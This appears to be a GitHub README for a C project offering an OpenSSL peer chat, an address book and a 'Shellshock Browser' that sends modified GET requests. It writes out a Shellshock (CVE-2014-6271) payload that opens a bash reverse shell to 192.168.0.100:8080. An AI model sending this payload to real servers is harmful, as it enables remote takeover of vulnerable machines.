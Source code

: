 # peer-chat
* Server and Client OpenSSL Peer Socket Chat (Windows/Linux)

    most Bug free
    
* Addressbook functionality (Windows/Linux)

    Entry has Bugs
    
* http/https Shellshock Browser (Windows/Linux)

    most Bug free
    A Webbrowser that has a modyfied GET Request. It supports HTTP and HTTPS Connections.
    
    A useful Link:
    
    http://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/#gref
    
    The Shellshock it self: "env x='() { :;}; ' $(command -v bash) -i >& /dev/tcp/192.168.0.100/8080 0>&1"


# building
* On Linux: make

* On Windows: use DevC++ (latest) WIN32/WIN64 Compiler

with linker options:

-mwindows
-lssl
-lcrypto
-leay32 
-lwsock32
-lws2_32 
-lpthread
-s

Code profiling -std=ISO C99

# install
* On Linux: sudo make install

# uninstall
* On Linux: sudo make uninstall

# clean
* On Linux: make clean
